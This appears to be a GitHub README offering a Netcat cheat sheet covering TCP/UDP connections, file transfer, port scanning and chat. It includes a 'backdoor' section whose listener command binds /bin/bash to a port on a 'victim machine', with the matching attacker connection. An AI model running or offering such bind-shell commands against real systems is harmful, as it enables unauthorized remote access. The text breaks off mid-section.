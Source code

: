# Netcat-

# Netcat Command Examples Cheat Sheet

 Netcat is a versatile network tool, often referred to as the "Swiss Army Knife" of networking due to its wide range of functionalities. This guide is designed for **educational purposes**, helping users understand and implement common Netcat use cases.

---

## Table of Contents
- [Introduction to Netcat](#introduction-to-netcat)
- [Syntax Overview](#syntax-overview)
- [Examples](#examples)
  - [Create a Connection Using TCP](#create-a-connection-using-tcp)
  - [Create a Connection Using UDP](#create-a-connection-using-udp)
  - [Transfer Files Between Systems](#transfer-files-between-systems)
  - [Port Scanning](#port-scanning)
  - [Chatting Between Machines](#chatting-between-machines)
  - [Create a Backdoor (Demonstration Only)](#create-a-backdoor-demonstration-only)
- [Bonus: TCP vs UDP](#bonus-tcp-vs-udp)
- [Contributions](#contributions)

---

## Introduction to Netcat
Netcat is a command-line networking utility that enables communication between computers over TCP or UDP protocols. It can be used for various tasks such as:
- File transfers
- Chat applications
- Port scanning
- Running commands remotely

Netcat is simple to use and an essential tool for anyone interested in network communication.

---

## Syntax Overview
```bash
nc [options] [hostname] [port]

Key Options:
-l: Listen mode (server mode) for incoming connections.
-u: Use UDP instead of TCP for connections.
-v: Verbose mode, providing additional output for troubleshooting.
-z: Zero I/O mode for port scanning (no data sent or received).
-e <program>: Executes the specified program after a connection is established (removed in modern implementations for security reasons).
Common Syntax Patterns:
Listening for connections:

bash
Copy code
nc -l [port]
Example: nc -l 8080 listens on port 8080 for incoming TCP connections.

Connecting to a remote host:

bash
Copy code
nc [hostname] [port]
Example: nc 127.0.0.1 8080 connects to localhost on port 8080.

Transferring files:

Sender:
bash
Copy code
nc [receiver_ip] [port] < file_to_send
Receiver:
bash
Copy code
nc -l [port] > received_file
Port scanning:

bash
Copy code
nc -z -v [hostname] [start_port]-[end_port]
Example: nc -z -v 127.0.0.1 1-100 scans ports 1 to 100 on localhost.

UDP connections:

bash
Copy code
nc -u [hostname] [port]
Example: nc -u 127.0.0.1 9999 establishes a UDP connection on port 9999.

Establishing a backdoor (for demonstration purposes):

bash
Copy code
nc -l [port] -e /bin/bash
Example: nc -l 9999 -e /bin/bash opens a backdoor on port 9999 to execute commands.

Examples
Create a Connection Using TCP
Listener:
bash
Copy code
nc -l 8080
Client:
bash
Copy code
nc 127.0.0.1 8080
This establishes a TCP connection between the listener and client.

Create a Connection Using UDP
Listener:
bash
Copy code
nc -l -u 999
Client:
bash
Copy code
nc -u 127.0.0.1 999
This establishes a UDP connection on port 999.

Transfer Files Between Systems
Receiver (Linux):
bash
Copy code
nc -l 9999 > received.file
Sender (Mac):
bash
Copy code
nc <IP_address> 9999 < file_to_send.file
This transfers a file from the sender to the receiver.

Port Scanning
Verbose Scanning:
bash
Copy code
nc -v -n 127.0.0.1 1-100
Zero I/O Mode Scanning:
bash
Copy code
nc -z 127.0.0.1 1-100
This scans for open ports within the specified range.

Chatting Between Machines
Establish a TCP connection as shown in the TCP example, and use the terminal to send messages back and forth.

Create a Backdoor (Demonstration Only)
Listener (Victim Machine):
bash
Copy code
nc -l 9999 -e /bin/bash
Attacker Access:
bash
Copy code
nc <IP_address> 9999
Warning: This example is for educational purposes only. Unauthorized use of this functionality is illegal.

Bonus: TCP vs UDP
TCP:

Reliable, ensures data delivery.
Slower due to error-checking mechanisms.
Ideal for tasks requiring accuracy (e.g., file transfers).
UDP:






